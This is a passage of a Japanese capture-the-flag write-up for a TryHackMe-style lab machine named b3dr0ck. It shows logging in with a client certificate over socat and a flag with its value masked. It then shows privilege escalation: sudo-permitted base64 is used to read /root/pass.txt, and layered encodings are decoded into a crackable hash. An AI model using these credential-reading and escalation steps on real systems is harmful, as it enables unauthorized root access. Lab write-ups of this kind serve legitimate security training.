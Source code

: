 再び、54321 ポートに接続。

```shell
$ socat stdio ssl:10.10.192.106:54321,cert=./fred_cert,key=./fred_key,verify=0
2025/03/25 05:40:31 socat[11987] W refusing to set empty SNI host name


 __     __   _     _             _____        _     _             _____        _
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)



Welcome: 'fred jr' is authorized.
b3dr0ck> password
Password hint: ひみつ (user = 'fred jr')
```

fred としてログインできた。フルネームは何でも良かったらしい。

```shell
fred@b3dr0ck:~$ cat ./fred.txt
THM{08..........................}
```

## 権限昇格２

```shell
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

sudo で、/root/pass.txt は読める。

```shell
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt
...................................==
```

これを base64, base32, base64 デコードしたら MD5 ハッシュのようなものになった。

```shell
$ echo ...................................== | base64 -d | base32 -d | base64 -d
ひみつ
```

これは MD5 としてクラックできた。そのパスワードを使い、su で root になれた。
